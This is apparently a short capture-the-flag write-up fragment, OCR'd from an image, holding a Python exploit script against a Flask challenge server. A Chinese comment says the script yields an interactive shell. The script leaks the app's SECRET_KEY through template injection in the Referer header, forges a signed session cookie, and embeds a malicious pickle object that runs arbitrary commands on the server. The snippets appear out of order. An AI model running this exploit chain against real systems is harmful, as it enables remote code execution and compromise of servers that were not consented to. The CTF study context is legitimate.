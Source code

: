 ```python
# generate
cookies = {
    "session": s.dumps(data)
}
r = requests.get(url_note, cookies=cookies)
```

这个是可以拿到交互式的shell

```python
# coding: utf-8
import re
import base64
import hashlib
import pickle
import requests
import os
from itsdangerous import URLSafeTimedSerializer
from flask.sessions import TaggedJSONSerializer

host = os.getenv("HOST", 'fa6bdc63-af9b-497c-9456-dda2e6c9ac2f.node4.buuoj.cn')
port = os.getenv("PORT", '81')
url_new = "http://{}:{}/new".format(host, port)
url_note = "http://{}:{}/note/0".format(host, port)
url_404 = "http://{}:{}/qwerty".format(host, port)
url_referer = "http://{}:{}/{{{{config}}}}".format(host, port)

# leak the secret key
r = requests.get(url_404, headers={'referer': url_referer})
result = re.findall(b"SECRET_KEY&#39;: b&#39;(.+)&#39;, &#39;PERMANENT_SESSION_LIFETIME", r.text.encode("ascii"))
key = eval(b'b"' + result[0] + b'"')

# get a valid session
r = requests.get(url_new, allow_redirects=False)
session = r.cookies.get("session")

# decode
serializer = TaggedJSONSerializer()
signer_kwargs = {
    'key_derivation': 'hmac',
    'digest_method': hashlib.sha1
}
s = URLSafeTimedSerializer(
    key,
    salt='cookie-session',
    serializer=serializer,
    signer_kwargs=signer_kwargs
)
data = s.loads(session)

while True:
    print("$ ", end="")
    cmd = input().split()
    # inject
    class Evil(object):
        def __init__(self, cmd):
            self.cmd = cmd
        def __reduce__(self):
            import subprocess
            return (subprocess.check_output, (self.cmd, ))
    evil = [
        {"date": "", "text": "", "title": Evil(cmd)}
    ]
```